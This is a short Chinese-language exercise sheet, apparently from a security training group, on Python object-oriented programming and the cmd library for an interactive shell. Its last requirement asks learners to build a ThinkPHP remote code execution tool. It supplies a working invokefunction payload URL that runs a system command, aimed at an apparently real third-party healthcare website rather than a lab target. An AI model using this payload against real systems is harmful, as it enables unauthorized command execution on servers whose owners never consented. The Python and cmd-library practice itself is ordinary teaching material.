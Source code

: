 # 任务
这个任务，功能大伙可以根据自己的理解和功能去做。重点是把[面向对象和继承](https://www.runoob.com/python3/python3-class.html)学好。
## 基础
首先有继承方面的基础，并且有阅读分析文档
本任务文档[CMD](https://docs.python.org/3/library/cmd.html)

## 需求
* 使用cmd库，实现一个交互式命令行
* 修改交互式命令行的标识符（自己ID）
* 实现一个命令，如果：info 效果如下
```angular2html
0vercl0k >info
I Love Qingtian Lab
0vercl0k >
```
* 根据以上，实现一个远程代码执行。（Thinkphp）

thinkphp：https://www.beautechhealthcare.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
(注意 命令执行即可，如果有能力可以做更多一点功能)

## 疑点
* 为什么TAB键不支持